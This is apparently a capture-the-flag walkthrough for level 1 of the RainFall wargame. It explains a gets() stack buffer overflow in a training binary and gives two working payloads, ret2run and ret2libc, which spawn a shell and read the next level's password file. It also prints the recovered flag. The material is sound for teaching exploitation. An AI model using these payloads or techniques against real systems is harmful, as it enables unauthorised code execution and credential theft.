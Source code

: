 # Level 1

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector -static source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>

void run(void)
{
    fwrite("Good... Wait what?\n", 1, 19, stdout);
    system("/bin/sh");
}

int main(void)
{
    char buffer[64];
    gets(buffer);
}
```

Let's focus on the `main` function. It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read.

In this case, the program's stack is allocated 80 bytes:
```
# Allocating 80 bytes on the stack
0x08048486 <+6>:     sub    $0x50,%esp

# Calculate the address of esp + 16, since we allocated 80 bytes for the stack our buffer will therefore be 64 bytes.
0x08048489 <+9>:     lea    0x10(%esp),%eax
```

The buffer is 64 bytes long. Therefore, passing more than 64 bytes to the program will result in a buffer overflow. Our goal is to overflow the stack until we reach the return address of the main function, which is 12 bytes after the buffer.
> If the stack layout isn't as straightforward as the one in this exercise, you can just use a [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), to find the offset of the return address. However when possible try to understand the stack layout with the `sub` instruction.

Anything written beyond those 76 bytes (64 bytes of buffer + 12 bytes to reach the return address) will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

There's different ways to solve this challenge, we'll see two of them. First the intended way with a ret to the run function and then the ret2libc way.

### Ret2run
So, we need to find the address of the `run` function, which spawns a shell, to jump to it:
```
(gdb) info function run
All functions matching regular expression "run":

Non-debugging symbols:
0x08048444  run
```

Let's craft our payload:
```bash
padding + address of run

"\x90"*76 + "\x08\x04\x84\x44"
```

Let's run it:
```bash
level1@RainFall:~$ (python -c 'print("0"*76 + "\x08\x04\x84\x44"[::-1])' && echo 'cat /home/user/level2/.pass') | ./level1
Good... Wait what?
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Perfect, let's move to the other solution.

### Ret2libc
Obviously, for this level, a ret2libc isn't necessary as we can just jump to the `run` function. However, it's a good exercise to understand how it works. I'll refer to this walkthrough in the future when a ret2libc is necessary.

Ret2Libc (Return-to-Libc) is an exploit technique that redirects the program flow to execute existing library functions.

A typical Ret2Libc exploit is constructed as follows:
```
padding + address of system + address of exit + address of "/bin/sh"

The address of exit is actually optional, but not providing it will cause the program to crash after executing the system function.
```

We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0x08048360  system
0x08048360  system@plt

# Exit
(gdb) info function exit
0xb7e5ebe0  exit
0xb7e5ec10  on_exit

# /bin/sh
(gdb) info proc mappings
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*76 + "\x08\x04\x83\x60" + "\xb7\xe5\xeb\xe0" + "\xb7\xf8\xcc\x58"
```

Let's run it:
```bash
level1@RainFall:~$ (python -c 'print("0"*76 + "\x08\x04\x83\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[:
:-1])' && echo 'cat /home/user/level2/.pass') | ./level1
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

We are now level2! Let's move on to the next level.
> We could also have used a ret2shellcode but since we'll be doing it in the next level, I'll skip it for now.